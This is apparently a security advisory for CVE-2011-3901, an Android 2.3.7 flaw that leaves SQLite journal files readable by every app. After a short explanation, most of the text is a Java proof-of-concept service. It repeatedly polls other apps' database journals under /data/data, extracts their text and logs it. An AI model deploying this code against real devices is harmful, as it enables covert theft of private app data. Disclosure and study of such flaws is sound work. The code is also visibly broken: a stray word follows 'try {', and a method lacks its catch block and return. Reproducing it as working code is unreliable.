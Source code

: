 ```yaml
---
layout: vuln
credit:
    - roeeh

timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2012-05-03' 
alephid: ALEPH-2011001
cve: CVE-2011-3901
date: '2012-05-03'
title: 'Android SQLite Journal Information Disclosure '
severity: high
product:
    - Android 2.3.7
mitigation: 
    - Install Android 4.0.1

references:
    - src: Paper
      url: http://blog.watchfire.com/files/androidsqlitejournal.pdf
---
```

The journal file of SQLite databases can be read by all applications:
* The application's data directory has execution rights for all users, up to the root. This means that files with read or write permissions for all users, found under the application's data directory are actually globally accessible.
* The /data/data/<app package>/databases directory is created with [rwxrwx--x] permissions, meaning that files under that dir with global read or write permissions, are globally readable or writable.
* The journal file is created under the databases directory with [-rw-r--r--] permissions and therefore it can be read by all apps.

*Conclusion:* All databases maintained by Android's SQLite engine (unless named with a random and unguess-
able string) can be leaked by malicious applications without the need to declare adequate privileges. The
databases can be leaked during the lifetime of the journal file, (i.e. when the transaction is made).


## Proof-of-Concept ##
```java
public class SqlliteJournalLeakActivity extends Activity {
    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.main);
        final Intent intent = new Intent(this, com.ibm.android.sqllitejournal.SqlliteJournalLeakService.class);
        final PendingIntent pending = PendingIntent.getService(this, 0, intent, 0);
        final AlarmManager alarm = (AlarmManager) this.getSystemService(Context.ALARM_SERVICE);
        alarm.cancel(pending);
        long interval = 30;
        alarm.setRepeating(AlarmManager.ELAPSED_REALTIME, SystemClock.elapsedRealtime(),interval, pending);
    }
}
public class SqlliteJournalLeakService extends Service {
    private final String[] DATABASES = {
        [... see paper ...]
    };
    
    private final IBinder mBinder = new SqlliteJournalLeakServiceBinder();
    private HashMap<String, Long> mLastChanges = new HashMap<String, Long>();
    private FileOutputStream mLog;
   
    @Override
    public void onCreate() {
        try {quick
        mLog = openFileOutput("leak.log", MODE_APPEND);
        } catch (FileNotFoundException e) {}
    }
    
    @Override
    public int onStartCommand(Intent intent, int flags, int startId)
    {
        trackChanges();
        return START_STICKY;
    }
    
    private void trackChanges()
    {
        for (String name : DATABASES)
        {
            name = "/data/data" + name + "-journal";
            File f = new File(name);
            if (!f.exists())
            {
                continue;
            }
            if (!mLastChanges.containsKey(name))
            {
                mLastChanges.put(name, f.lastModified());
                handleChange(f);
            }
            long m = f.lastModified();
            if (mLastChanges.get(name) >= m)
                continue;
            mLastChanges.put(name, m);
            handleChange(f);
        }
    }
    private void handleChange(File file)
    {
        log(file.getAbsolutePath(), getPrintable(file));
    }
    private void log(String pkg, String data)
    {
        String line = pkg + ":\n\n" + data + "\n================================\n";
        try
        {
            mLog.write(line.getBytes());
            mLog.flush();
        }
        catch (IOException e) {}
    }
  
    private static String getPrintable(File journal)
    {
        String printable = "";
        int len = 0;
        FileReader fr;
 
        try {
            fr = new FileReader(journal);
            char[] buffer = new char[1024];
            while (-1 != (len = fr.read(buffer)))
            {
                for (int i = 0 ; i < len ; i++)
                {
                if (filter(buffer[i]))
                    printable += buffer[i];
                }
            }
        }
    }
    private static boolean filter(char ch)
    {
        switch (ch)
        {
            case '\n':
            case '\r':
            case '\t':
                return true;
        }
        if ((ch >= 0x20) && (ch <= 0x80))
            return true;
        return false;
    }
    public class SqlliteJournalLeakServiceBinder extends Binder {
        SqlliteJournalLeakService getService() {
            return SqlliteJournalLeakService.this;
        }
    }
    @Override
    public IBinder onBind(Intent intent) {
        return mBinder;
    }
}
```